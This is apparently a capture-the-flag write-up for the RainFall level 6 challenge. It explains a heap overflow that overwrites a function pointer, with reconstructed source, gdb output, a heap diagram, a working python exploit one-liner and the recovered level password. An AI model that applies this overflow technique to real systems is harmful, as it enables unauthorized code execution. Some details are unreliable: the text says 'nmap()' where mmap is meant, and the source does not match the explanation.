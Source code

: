 # Level 6

<h3>source.c</h3>

```console
void n(void) {
  system("/bin/cat /home/user/level7/.pass");
}

void m(void) {
  puts("Nope");
}

void main(int argc, char** argv) {
  char* str;
  void* func;

  str = malloc(64);
  func = malloc(4);

  func = &m;

  strcpy(str, argv[1]);
  func();
}
```

<h3>Analysis</h3>

In this program, there is `n()` which will give us the password to the next level, however this function will never get called

Next in the main function, we see 2 local variable which will each be malloc with a certain amount of memory

`str` will be given a pointer to the `heap` with 64 useable memory and `func` will be given 4 `heap` memory

At the later part of the program we can see there is a call to `strcpy()` which is normally vulnerable, but there is another more interesting thing to look at

`func` is given the address of `m()` and at the last part of the `main()`, it called `func` which in turn will execute the `m()`

Since `func` is just a pointer to an address located in the `heap`, we could use the vulnerability of `strcpy()` to overflow `str` and overwrite the data of `func` so it will execute `n()` instead

<h3>Exploit</h3>

First we need to get the address of `n()`

```console
(gdb) print n
$1 = {<text variable, no debug info>} 0x8048454 <n>
```

There we have the address of `n()` which is `0x08048454`

Next we will explore on how the `heap` look like after the 2 call of `malloc()`

`str` request a memory area of 64 bytes, and get a pointer to that memory, and `func` request a memory area of 4 bytes and got a pointer to that memory

The way malloc work is that it will call `nmap()` which reserve a chunk of memory or a `page` to be used

Next the `malloc` will manage this `page` and keep a `metadata` to keep track on how much memory is left and how many block of address is free to be use

```console
+--------------------------------+
|         page of memory         |      -> area given to malloc by nmap
+--------------------------------+

+--------------------------------+
| M |                            |      -> malloc will put the metadata (M) at the begining of the page to store the information of the area it owns
+--------------------------------+

1st malloc call (str = malloc(64))

+--------------------------------+
| M | B | 64 bytes |             |      -> malloc will create a block (B) which contain the info that the next 64 bytes is now reserve (not free) and
+--------------------------------+         it will return the pointer to the begining of that 64 bytes to be use
        | *str     |
        +----------+

2nd malloc call (malloc(4))

+--------------------------------+
| M | B | 64 bytes | B | 4 bytes |      -> malloc will create new block (B) which contain the info that the next 4 bytes is now reserve (not free) and
+--------------------------------+         it will return the pointer to the begining of that 4 bytes to be use
        | *str     |   | *func   |
        +----------+   +---------+
```

We could see that the memory area of `str` and `func` is actually side by side, and only seperated by a block (B) with is 8 bytes long

`str` have a memory size of 64 bytes, and adding the 8 bytes from the block, we get 72 which is the offset that is needed to start overwriting the `func` memory area

```console
level6@RainFall:~$ ./level6 `python -c "print 'a' * 72 + '\x54\x84\x04\x08'"`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

<h3>Helpful link for this exploit</h3>
https://www.youtube.com/watch?v=HPDBOhiKaD8&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=27